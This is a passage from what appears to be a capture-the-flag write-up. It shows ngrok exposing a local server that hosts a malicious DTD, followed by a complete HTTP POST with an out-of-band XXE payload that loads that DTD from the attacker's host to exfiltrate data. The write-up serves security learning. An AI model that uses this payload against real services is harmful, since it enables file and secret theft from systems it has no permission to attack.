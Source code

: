 That's where ngrok comes in.

Once you have an ngrok account and have downloaded/installed their software you can do this:

```
ngrok http http://localhost:5050
```

```
ngrok by @inconshreveable                                                                                                                                            (Ctrl+C to quit)

Session Status                online
Account                       <my-account> (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://55619db0af68.ngrok.io -> http://localhost:5050
Forwarding                    https://55619db0af68.ngrok.io -> http://localhost:5050

```

Once this is running, anyone on the Internet that goes to:

http://55619db0af68.ngrok.io/mal.dtd

will end up hitting my local web server and getting back whatever is in my mal.dtd file.

This tool is a must have for some CTF challenges like this one.

Armed with that infrastructure in place, I can now POST a very carefully crafted XML payload:

```
POST /customize HTTP/1.1
Host: 45.134.3.200:5000
Content-Length: 199
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: text/xml
Origin: http://45.134.3.200:5000
Referer: http://45.134.3.200:5000/customize
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoic2FtIn0.YBM4RA.uNSKnfomEGCilO3Sq8GZhlnR53I
Connection: close


<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://55619db0af68.ngrok.io/mal.dtd">
%sp;
%param1;
]>
<root>
 <size>&exfil;</size>
 <color>red</color>
</root>
```
